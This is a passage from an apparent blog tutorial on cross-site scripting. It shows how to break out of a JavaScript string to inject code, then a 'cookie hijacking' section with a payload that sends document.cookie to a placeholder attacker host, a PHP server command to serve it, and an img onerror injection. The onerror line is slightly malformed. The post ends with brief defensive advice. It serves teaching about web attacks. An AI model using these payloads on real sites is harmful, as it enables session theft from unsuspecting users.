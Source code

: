 ```html
<p>My comment</p>
```

So we can analyze the script again and figure out we can break the quotes to then inject more JS code:

```js
let comment = "My comment"; alert(1); //"
```

So when the browser execute the JS script, it will take the comment and it will run `alert(1)`, and that's how we could inject a XSS in a JavaScript script.



## WAY TO EXPLOIT XSS BY COOKIES HIJACKING 

There are a lot of ways to take vantage of a XSS, the most common is `Cookies Hijacking`. It consist in be able to hijack a whole session without passwords or 2FA by cookies. let's see how we can do this.

First you need to have an application in your attacker system to collect cookies (I made mine as example, you can look at it in this URL -> [https://github.com/j4f3th/cookiesMonster/](https://github.com/j4f3th/cookiesMonster/)) , then you can make a web server which brings the payload to the victim web page:


```bash
$ echo 'new Image().src='http://IP:PORT_ATTACKER_APP/index.php?c='+document.cookie;' > payload.js
$ php -S IP:PORT
[Thu Jun 19 21:32:44 2025] PHP 8.3.6 Development Server (http://IP:PORT) started
```

then you insert the payload in your XSS attack:

```bash
<img src="PWNED" onerror="http://IP:PORT/payload.js">
```


Then just wait to get cookies:

<div>
    <div class="col-sm mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="assets/img/posts/HowtoXSS/cookiesmonster.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>




## Conclusion

This type of vulnerability is pretty important to void in actual web application, it can compromise the security of any user in that application, people cannot only get cookies, people can get Bank info as Credit Cards or Debit Cards or any type of info from the server. A good way to protect yourself is using addons as [NoScript](https://noscript.net/), not collecting cookies in your browser, or use secure browsers as `LibreWolf` or `Brave` with options to don't collect cookies and block scripts. 






